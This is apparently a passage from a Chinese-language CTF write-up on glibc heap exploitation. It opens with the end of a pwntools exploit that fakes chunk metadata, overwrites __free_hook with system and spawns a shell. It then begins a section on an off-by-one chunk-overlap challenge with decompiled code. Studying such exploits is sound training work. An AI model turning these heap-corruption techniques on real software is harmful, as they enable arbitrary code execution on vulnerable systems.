 ```plain

pl=p64(0)+p64(0xf1)+p64(heap_base+0x9a0)+p64(heap_base+0x9a0)
pl=pl.ljust(0xf0,'\x00')
pl+=p64(0xf0)
edit(7,pl)
delete(8)

for i in range(7):
    add(i,0xf8,'')

add(9,0xf8,'')
delete(1)
delete(9)

pl = p64(0)+p64(0x100)+p64(free_hook)
edit(7,pl)
add(1,0xf8,'/bin/sh\x00')
add(9,0xf8,p64(system))

sla('>> ',str(2))
sla('which note do you want delete?\n',str(1))
itr()
```

## ISCC线下赛-私地

glibc2.23 : off by one + chunk Overlapping  
off by one 向下合并：size and prev size inuse  
合并只需要改chunk一步就能成功，然后free后就能释放，释放后再次申请就有重叠的chunk了

### ida

```plain
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[4]; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  while ( 1 )
  {
    menu();
    read(0, buf, 4uLL);
    switch ( atoi(buf) )
    {
      case 1:
        create_user();
        break;
      case 2:
        edit_user();
        break;
      case 3:
        show_user();
        break;
      case 4:
        delete_user();
        break;
      case 5:
        exit(0);
      default:
        puts("Invalid Choice");
```
